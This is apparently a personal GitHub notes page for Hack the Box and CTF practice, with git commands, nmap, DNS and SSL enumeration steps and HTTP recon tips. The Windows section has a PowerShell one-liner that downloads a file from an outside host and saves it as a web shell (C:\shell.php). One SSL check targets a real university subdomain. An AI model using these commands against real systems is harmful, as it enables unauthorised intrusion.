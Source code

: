 Personal-Notes
===========================

> Example of how I take and store notes on github (copy this template) 

## Catalog
* [Git and Github](#git-and-github)
* [Windows](#windows)
* [CTF-tips](#hack-the-box-tips-and-tricks)
* [Operating procedures](#operating-procedures)
* [HTTP procedures](#http)
* [Ssh procedures](#ssh)
* [Ftp procedures](#ftp)
* [MySQL procedures](#mysql)
* [Samba procedures](#samba)
* [Forensics procedures](#forensics)
* [After Initial Access procedures](#after-gaining-access)
* [Author - About Me ](#author)


### Windows
* `Downloading a file with powershell`
	* `command`
	```
	powershell -Command "$c=new-object System.Net.WebClient;$c.DownloadFile('http://file.kaibro.tw/s','C:\shell.php')"
	```

* `Repairing boot drive`
	* `command`
	```
	navigate too boot with cmd
	bddedit // to view
	bcdedit /f /delete {xxxxxxxx}
	bcdboot c:\windows
	```  

### Git and Github
* `Creating a first repository`
	* create a new repository on the command line
	```
	echo "# demo" >> README.md
	git init
	git add README.md
	git commit -m "first commit"
	git branch -M main
	git remote add origin https://github.com/hackername/demo.git
	git push -u origin main
	```

	* push an existing repository from the command line
	```
	git remote add origin https://github.com/hackername/demo.git
	git branch -M main
	git push -u origin main
	```


* `Branches`
	```
	git branch newbranch - Creates a new branch
	git checkout newbranch - Changes to that branch
	git branch -vv
	git branch -d dev -delete dev branch
	Add or make changed
	git add .
	git commit -m 'Login added'
	git status - Check if changes were made and staging area is empty
	git checkout master - Switch back to master.login.html and stuff in the login         branch vanishes
	git push   => Pushes any changes made
	git merge login(while in master branch)
	```


* `General Commands`
	```
	echo 'First readme file ' > README.md
	git init
	git add README.md
	git commit -m 'first commit'
	git remote - Checks for remote repositories
	git remote add origin https://github.com/hackername/sample.git
	git push -u origin main/master
	git remote remove unwantedremote
	git push
	git pull
	git log
	git init - initalises a local git repository in a folder by creating a .git folder
	git add filename - Adds file to the index
	git status -   Checks the status of the workiing tree or staging area
	git rm cached filename - Removes a file from the staging area
	git commit - Commits changes to the index
	git commit -m 'Commit message goes here'  => Commiting without the editing part
	git push - Pushes to the remote repository
	git pull - Pulls latest changes ffrom remote repository
	git clone - Clones a repository into a new folder
	.gitignore file - Add the name of the file in this file and that file will be ignore during commits (e.g log files)
	```

### Hack the Box Tips and Tricks
* `tips`
    * Enumeration is Key
    * Be Organized and Document Everything
    * Do as much recon as possible
    * Keep amazing notes
    * Read writeups and watch videos
    * Set small predictable goals
    * Check other peoples methodology of doing the same thing
    * Learn from your weaknesses

* `links`
    * https://blog.nviso.eu/2020/02/13/my-journey-reaching-1-spot-on-hack-the-box-belgium-10-tips-tricks-and-lessons-learned/
    * https://infosecwriteups.com/things-i-learned-after-rooting-25-hack-the-box-machines-e9eada4ea6ca
    * https://technicalnavigator.in/tips-tricks-for-htbhack-the-box/
    * https://bitvijays.github.io/LFC-VulnerableMachines.html (best)


## Operating procedures
- Find the ip in which the vm is operating using sudo arp-scan -l 
- Add the ip to /etc/hosts
- Also add the name of the box with a .box prefix to `/etc/hosts` e.g venom -> venom.box
- Find services running on the machine, start with a simple scan the go to a detailed scan
- Check all ports first with `nmap -Pn -p- stapler -vvv`
- Scan `common ports` using(`sudo nmap 10.10.147.248 -sC -sS -sV -vv`) and metasploit
- Scan `all ports` using (`sudo nmap 10.10.147.248 -p- -sC -sS -sV -vv`) and metasploit
- Check both `https/http` versions of the sites
- Check ssl info for machine `dnsinfo`
- Try to find exploits for the services found using `searchsploit`
- The name of the box could be a service,username,or password
- Check for vulnerabilities using the script option
- If a service is running on two ports, check both ports , they might be slightly different


### Enumerating ssl
```
- openssl s_client -connect defao.dkut.ac.ke:443 // Check subdomain ssl information for more enumeration with the following command
- You can use shodan to locate other ips using the same ssl cert
```

### DNS
```
host <domain> <optional_name_server>
host -t ns <domain>                 Name Servers
host -t a <domain>                  Address
host -t aaaa <domain>               AAAA record points a domain or subdomain to an IPv6 address
host -t mx <domain>                 Mail Servers
host -t soa <domain>                Start of Authority
host <IP>                           Reverse Lookup
host -l <Domain Name> <DNS Server>  Domain Zone Transfer
```


### Http
#### Enumeration guideline
* Check server/service versions, search exploits on searchsploit
* Check for usernames, shares etc.
* Generate wordlists with cewl and use it as passlist in case you have a username





### Author
* `Links`
	* [My Github](https://github.com/allannjuguna)
	* [My Twitter](https://twitter.com/xubzer0)
	* [My Blog](https://allannjuguna.github.io)